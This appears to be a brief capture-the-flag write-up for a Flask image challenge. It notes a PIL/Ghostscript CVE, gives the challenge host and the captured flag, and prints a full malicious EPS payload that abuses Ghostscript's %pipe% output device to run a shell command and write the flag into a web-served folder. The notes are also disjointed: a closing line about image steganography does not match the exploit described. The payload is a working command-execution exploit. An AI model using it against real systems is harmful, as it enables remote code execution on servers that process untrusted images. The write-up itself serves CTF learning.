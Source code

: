 http://206.189.24.232:30063/static/petpets/

PIL CVE ghostscript

lesson: check every modules for possible CVE when dealing with python(flask), SSTI is not the only vulnerability HAHAHHAA

PoC:
HTB{c0mfy_bzzzzz_rcb33s_v1b3s}

payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag > /app/application/static/petpets/pwn.txt) currentdevice putdeviceprops
```

pwn.png

This room is about steganography on image and see if a script will accidentally read the malicious code injected to the picture.                                 
https://www.bleepingcomputer.com/news/security/hacking-group-hides-backdoor-malware-inside-windows-logo-image/?fbclid=IwAR1L7UBtRfCebWTEHFd7Znah2Np9pzOAZzDJOV26RVpZNasyg2tKhJLAryU
